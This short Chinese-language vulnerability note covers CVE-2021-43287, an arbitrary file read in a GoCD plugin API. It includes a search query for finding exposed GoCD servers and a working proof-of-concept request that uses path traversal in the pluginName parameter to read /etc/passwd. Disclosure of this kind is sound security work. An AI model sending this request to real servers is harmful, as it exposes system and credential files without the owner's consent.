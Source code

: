 # GoCD plugin 任意文件读取漏洞 CVE-2021-43287

## 漏洞描述

*GoCD*，一个开源的持续集成和持续交付系统，可以在持续交付过程中执行编译，自动化测试，自动部署等等，与Jenkins类似。

GoCD plugin aip 参数中的 pluginName 参数存在任意文件读取漏洞，导致攻击者可以获取服务器中的任意敏感信息

## 漏洞影响

```
GoCD
```

## 网络测绘

```
title="Create a pipeline - Go"
```

## 漏洞复现

主页面

![](./images/202205251627593.png)

验证POC

```
/go/add-on/business-continuity/api/plugin?folderName=&pluginName=../../../etc/passwd
```

![](./images/202205251627131.png)